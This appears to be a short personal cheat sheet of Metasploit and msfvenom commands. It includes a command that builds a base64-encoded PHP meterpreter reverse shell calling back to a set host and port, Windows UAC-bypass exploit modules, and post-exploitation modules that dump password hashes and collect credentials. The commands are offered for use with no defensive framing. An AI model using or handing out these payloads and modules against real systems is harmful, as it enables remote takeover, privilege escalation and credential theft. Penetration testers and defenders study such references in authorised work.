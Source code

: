 ﻿## Metasploit Basic Command:

 - \# service postgresql start
 - \# msfconsole
 - \# search "exploit"
 - \# use "exploit"
 - \# show options
 - \# show info
 - \# show payloads | Here you can see your available payloads for particular exploits.
 - \# set PAYLOADS "payload" 
 - \# show options | Here you get some additional fields as payload set.
 - \# exit

# Structure of Metasploit-Framework:

-Location : **"/usr/share/metasploit-framework"**

<img src="./metasploit_path.png" alt="Path of Modules">

# MSFVENOM BASIC:
-   \# msfvenom --help
-   \# msfvenom --list payloads
-   \# msfvenom --list payloads | grep php
-   \# msfvenom --list encoder
-   \# msfvenom --list formats
-   \# msfvenom -p "payload" --list-options
-   \# msfvenom -p php/meterpreter_reverse_tcp --list-options

> Creating Payload:

	# msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.125 LPORT=4444 -e php/base64 -f raw > shell.php

# Installing Wine on Kali:
  
  > Installing 32 Bit architecture wine:
  
	  # sudo dpkg --add-architecture i386 && sudo apt update
	  
> Installing 64 Bit Wine:

	# sudo apt install wine64 -y
	
# Hexeditor:
-  \# hexeditor "filename"

# UAC Exploits:

	use exploits/windows/local/bypassuac_fodhelper
	use exploits/windows/local/bypassuac

# Some Post Modules:
	
		run post/windows/gather/arp_scanner.rb
		run post/windows/gather/checkvm.rb
		run post/windows/gather/credentials/credential_collector
		run post/windows/gather/hashdump
		run post/windows/gather/dumplinks
		run post/windows/gather/enum_applications
		run post/windows/gather/enum_logged_on_users




			
			

